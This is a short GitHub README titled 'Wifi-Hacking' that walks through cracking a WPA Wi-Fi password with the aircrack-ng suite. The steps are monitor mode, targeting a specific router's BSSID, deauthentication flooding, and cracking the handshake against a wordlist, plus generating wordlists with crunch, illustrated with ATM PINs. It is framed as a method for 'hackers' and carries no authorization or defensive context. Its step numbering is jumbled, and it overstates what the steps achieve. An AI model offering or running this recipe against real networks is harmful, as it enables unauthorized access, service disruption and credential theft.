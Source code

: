 # Wifi-Hacking
This method allows hackers to hijack any packet of data that is being transmitted between a device and a router

![logo-wifi-some-countries-banning-wifi-schools-should-south-13 (2)](https://github.com/HackWithSumit/Wifi-Hacking/assets/120317751/6bc41f4b-7fc4-4c28-82a3-e6123102cc08)


Wifi Hacking

Divided into 5 steps:

1. Starting the Monitoring mode on the adapter. -> 
     
         airmon-ng start wlan0


4. Discovering the available networks: 
    
       airodump-ng wlan0
6. Performing authentication (Capturing the packets) -> 

       airodump-ng -c 6 -w oneplus --bssid A2:B0:A6:79:E4:8B wlan0
8. Performing De-authentication (Once this is successful we will be able to able to see "WPA Handshake" in above step) -> 
  
        aireplay-ng -0 0 -a A2:B0:A6:79:E4:8B wlan0 
10. Cracking the password. 

        aircrack-ng -w wordlist.txt kali.cap

         
        Once the password matches we will get the correct password.


        Crunch tool comes pre-installed in Kali. 

Command: 

     crunch <min> <max> [options]

  
Example: Creating atm pins, so we know that atm pin is of 4 digits to max and min will be of 4 digits and could be anywhere between 0-9. 
  
So the command will be 
  
     "crunch 4 4 0123456789 -o<output file path>"


